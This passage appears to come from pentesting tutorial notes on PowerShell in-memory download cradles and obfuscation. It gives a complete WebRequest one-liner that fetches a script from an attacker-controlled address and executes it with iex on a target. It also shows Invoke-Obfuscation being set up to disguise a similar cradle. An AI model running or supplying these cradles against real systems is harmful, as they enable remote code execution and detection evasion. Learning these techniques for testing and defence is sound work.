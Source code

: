 We can execute the file immediately also using the `&` operator ie, "& local\_path\_to\_save\_file". But, then we have to store the `local_path_to_save_file` to a variable.

### --> Using \[WebRequest]

Aside from the "Net.WebClient" class, we can also use the "Net.WebRequest" class to download and execute scripts on a target in memory.

`powershell.exe -Command $req =[System.Net.WebRequest]::Create('http://192.168.0.100:8000/test.ps1'); $res = $req.GetResponse(); iex ([system.IO.StreamReader] ($res.GetResponseStream())).ReadToEnd()`

## <mark style="color:red;">Obfuscation</mark>

{% embed url="https://medium.com/@ammadb/invoke-obfuscation-hiding-payloads-to-avoid-detection-87de291d61d3" %}
Article on Invoke-Obfuscation
{% endembed %}

**Invoke-Obfuscation** is a tool developed to aid Blue Teams to simulate obfuscated payloads and to enhance their detection capabilities. This tool helps security teams to adapt the techniques used by adversaries and to find malicious indicators.

Download from the github page [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

Once the Invoke-Obfuscation is downloaded, go the directory and list all the files. The tools comes with several files which are used in the module.

From this directory, we will use the following command to import the module manifest file.

> Import-Module .\Invoke-Obfuscation.psd1

Once the the command is executed successfully, launch the invoke-obfuscation using following command. _(Note: we might have to change the script execution policy if the psd1 is not executed. Use **set-execution policy** command)_

> Invoke-Obfuscation

We have different options we can use to obfuscate our PS cmds. But we will use "String and Encoding" methods here.

* First in order to tell Invoke-Obfuscation what we'd like to obfuscate, we first need to use the `SET SCRIPTBLOCK` cmd. ie;

&#x20;`Invoke-Obfuscation> SET SCRIPTBLOCK iex (New-Object Net.WebClient).DownloadString("http://192.168.0.100:8000/test.ps1")`

<figure><img src=".gitbook/assets/image (20).png" alt=""><figcaption><p>1</p></figcaption></figure>
